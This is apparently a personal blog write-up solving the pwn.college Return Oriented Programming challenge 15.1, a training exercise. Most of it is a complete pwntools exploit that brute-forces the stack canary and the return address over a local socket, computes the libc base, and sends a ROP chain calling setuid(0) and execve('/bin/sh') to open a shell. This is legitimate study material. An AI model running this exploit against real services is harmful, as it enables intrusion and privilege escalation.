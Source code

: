 +++
title = 'pwn.college - ROP 15.1'
date = 2023-09-22T15:29:34-04:00
tags = ["pwn", "rop", "asu"]
description = "In this section, I will be solving the last challenge of the Return Oriented Programming module on pwn.college, this challenge was straight up diabolical but really enjoyable."
draft = false
+++
This challenge, once again straight up Diabolical, but we solved it :)
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

If you want a more detailed writeup i would suggest looking at [[babyrop_level15.0]] instead.

The challenge had all protections enabled has we previously shown, and we had to bruteforce the canary, bruteforce the return address, once we have the return address we can subtract the offset to it resulting in the base address of libc. Once we got libc base it's jackpot and we win.
## Solution (remote)
I solved this challenge only remotely by slightly modifying the solution for [[babyrop_level15.0]], this is because the challenge is exactly the same only the buffer size changes, and also the process name (important when trying to kill the child process).
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./babyrop_level15.0
from pwn import *
import sys, os
import psutil

context.log_level = "error"

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/challenge/babyrop_level15.1')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

def get_process():
    process_name = "babyrop_level15.1"

    for process in psutil.process_iter(['pid', 'name']):
        try:
            if process.info['name'] == process_name:
                return process.info['pid']
        except:
            return 0

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled


canary = b"\x00"
if len(sys.argv) >= 2:
    if sys.argv[1] == "-c":
        with open("canary.txt", "r") as file:
            canary = bytes.fromhex(file.readline())
            print(f"Using canary from file canary.txt")
            file.close()

if len(canary) == 1:
    while True:
        if len(canary) == 8:
            break
        for y in range(0, 256):
            print(f"Bruteforcing byte {len(canary) + 1} of canary with {p8(y)} :: {canary[::-1].hex()}")
            io = remote("127.0.0.1", 1337)
            p = [
                b"A" * 0x38, canary, p8(y)
            ]

            io.send(b"".join(p))
            output = io.recvall(timeout=4)
            if not b"stack smashing" in output:
                io.close()
                # start second check
                io = remote("127.0.0.1", 1337)
                io.send(b"".join(p))
                output = io.recvall(timeout=4)
                if not b"stack smashing" in output:
                    print(f"Found value {p8(y)} at offset {len(canary) + 1}")
                    io.close()
                    canary += p8(y)
                    break

            io.close()

        if len(canary) == 8:
            break

print(f"Using Canary: {canary[::-1].hex()}")
print(f"Using Canary: {canary.hex()}")
print(canary)

with open("canary.txt", "w+") as file:
    file.write(canary.hex())
    file.close()

ret_val = b"\x69"

print("STARTING RET BRUTE PRESS A KEY")
input()

if len(sys.argv) >= 3:
    if sys.argv[2] == "-r":
        with open("ret.txt", "r") as file:
            ret_val = bytes.fromhex(file.readline())

if len(ret_val) == 1:
    while True:
        if len(ret_val) == 7:
            break
        for y in range(0, 256):
            parent = psutil.Process(get_process())
            for child in parent.children(recursive=True):
                child.kill()
                if child.is_running():
                    print("CANT KILL PROCESS.... TERMINATING")

            print(f"Bruteforcing offset {len(ret_val)+1} of return value with {p8(y)} :: {ret_val[::-1].hex()}")
            io = remote("127.0.0.1", 1337)
            p = [
                b"A" * 0x38, canary, b"B" * 0x8,
                ret_val, p8(y)
            ]

            io.send(b"".join(p))
            t = io.recvuntil(b"Goodbye!\n")
            if b"stack smashing" in t:
                print("odd")
            output = io.recvall(timeout=4)
            print(output)
            if b"Welcome" in output:
                ret_val += p8(y)
                io.close()
                parent = psutil.Process(get_process())
                for child in parent.children(recursive=True):
                    child.kill()
                    if child.is_running():
                        print("CANT KILL PROCESS... TERMINATING")
                break

            io.close()
            parent = psutil.Process(get_process())
            for child in parent.children(recursive=True):
                child.kill()
                if child.is_running():
                    print("CANT KILL PROCESS... TERMINATING")

        if len(ret_val) == 7:
            break


ret_val = ret_val.ljust(8, b"\x00")
#print(ret_val)
#print(f"RETURN VALUE: {ret_val.hex()}")
print(f"RETURN VALUE: {ret_val[::-1].hex()}")
with open("ret.txt", "w+") as file:
    file.write(ret_val.hex())
    file.close()

print(ret_val)
print(ret_val.hex())
ret_val = int(ret_val[::-1].hex()[2:], 16) - 0x24069
#ret_val = ret_val - 0x24013
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
print(f"libc base is at {hex(ret_val)}")
libc.address = ret_val
rop = ROP(libc)

parent = psutil.Process(get_process())
for child in parent.children(recursive=True):
    child.kill()

io = remote("127.0.0.1", 1337)
p = [
    b"A" * 0x38, canary, b"B"*0x8,
    p64(rop.find_gadget(['pop rdi', 'ret'])[0]), p64(0),
    p64(libc.sym.setuid),
    p64(rop.find_gadget(['pop rdi', 'ret'])[0]), p64(next(libc.search(b"/bin/sh"))),
    p64(rop.find_gadget(['pop rsi', 'ret'])[0]), p64(0),
    p64(libc.sym.execve)
    ]

io.send(b"".join(p))
io.interactive()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

#io.interactive()
```

